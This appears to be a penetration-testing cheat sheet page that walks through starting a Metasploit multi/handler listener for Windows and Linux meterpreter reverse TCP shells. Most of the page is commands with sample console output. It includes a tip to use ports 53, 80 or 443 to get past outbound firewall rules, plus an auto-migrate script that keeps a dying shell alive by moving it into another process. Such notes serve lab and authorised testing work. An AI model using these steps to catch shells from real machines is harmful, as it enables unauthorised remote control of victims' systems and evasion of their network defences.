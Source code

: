 ```yaml
---
title: "Metasploit Listener"
date: 2025-7-25
tags: ["Metasploit", "Firewall", "Reverse Shell", "Shellcode", "Listener", "Reverse Shell", "Msfconsole"]
---
```


### Start a Metasploit Listener

```console
msfconsole -q
```

```console {class="sample-code"}
$ msfconsole -q
msf6 >
```

```console
use exploit/multi/handler
```

```console {class="sample-code"}
msf6 > use exploit/multi/handler
[*] Using configured payload generic/shell_reverse_tcp
```

```console
# Windows x64
set payload windows/x64/meterpreter/reverse_tcp
```

```console {class="sample-code"}
msf6 exploit(multi/handler) > set payload windows/x64/meterpreter/reverse_tcp
payload => windows/x64/meterpreter/reverse_tcp
```

```console
# Linux amd64
set payload linux/x64/meterpreter/reverse_tcp
```

```console {class="sample-code"}
msf6 exploit(multi/handler) > set payload linux/x64/meterpreter/reverse_tcp
payload => linux/x64/meterpreter/reverse_tcp
```

```console
set lhost <LOCAL_IP>
```

```console {class="sample-code"}
msf6 exploit(multi/handler) > set lhost 10.10.14.31
lhost => 10.10.14.31
```

```console
set lport <LOCAL_PORT>
```

```console {class="sample-code"}
msf6 exploit(multi/handler) > set lport 1337
lport => 1337
```

```console
# Useful for multiple connections
set exitonsession false
```

```console {class="sample-code"}
msf6 exploit(multi/handler) > set exitonsession false
exitonsession => false
```

```console
run -j
```

```console {class="sample-code"}
msf6 exploit(multi/handler) > run -j
[*] Exploit running as background job 1.
[*] Exploit completed, but no session was created.
msf6 exploit(multi/handler) > 
[*] Started reverse TCP handler on 10.10.14.4:1337     <----- Press Enter
```

<small>*Note: Try to use common ports such as 53, 80, 443 to bypass firewall outbound rules*</small>

#### If the Shell Die Immediately, We can Try to Migrate it to Another Process

```console
# Create a automigrate.rc script
run post/windows/manage/migrate
```

```console {class="sample-code"}
$ cat automigrate.rc 
run post/windows/manage/migrate
```

<br>

```console
msfconsole -q
```

```console {class="sample-code"}
$ msfconsole -q
msf6 >
```

```console
use exploit/multi/handler
```

```console {class="sample-code"}
msf6 > use exploit/multi/handler
[*] Using configured payload generic/shell_reverse_tcp
```

```console
set payload windows/meterpreter/reverse_tcp
```

```console {class="sample-code"}
msf6 exploit(multi/handler) > set payload windows/meterpreter/reverse_tcp
payload => windows/meterpreter/reverse_tcp
```

```console
set lhost <LOCAL_IP>
```

```console {class="sample-code"}
msf6 exploit(multi/handler) > set lhost 10.10.14.31
lhost => 10.10.14.31
```

```console
set lport <LOCAL_PORT>
```

```console {class="sample-code"}
msf6 exploit(multi/handler) > set lport 1337
lport => 1337
```

```console
set AutoRunScript multi_console_command -r automigrate.rc
```

```console {class="sample-code"}
msf6 exploit(multi/handler) > set AutoRunScript multi_console_command -r automigrate.rc
AutoRunScript => multi_console_command -r automigrate.rc
```

```console
run
```

```console {class="sample-code"}
msf6 exploit(multi/handler) > run

[*] Started reverse TCP handler on 10.10.14.31:1337 
```